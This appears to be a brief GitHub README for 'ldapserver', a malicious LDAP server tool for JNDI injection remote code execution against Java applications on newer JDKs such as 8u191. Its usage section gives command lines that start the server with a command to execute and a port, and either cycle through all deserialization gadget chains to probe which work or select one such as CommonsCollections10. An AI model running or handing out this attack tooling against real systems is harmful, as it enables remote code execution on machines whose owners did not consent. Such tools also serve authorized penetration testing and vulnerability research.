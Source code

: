 # ldapserver
```
evil ldapserver while jndi injection rce with higher jdk ,such as jdk8u191
```
# how to use 
```
全量gadget:  (可用于探测支持的gadget)
java -jar ldapserver.jar -c "calc" -p 1389
指定gadget: (用于执行) 
java -jar ldapserver.jar -c "calc" -p 1389 -g CommonsCollections10

```
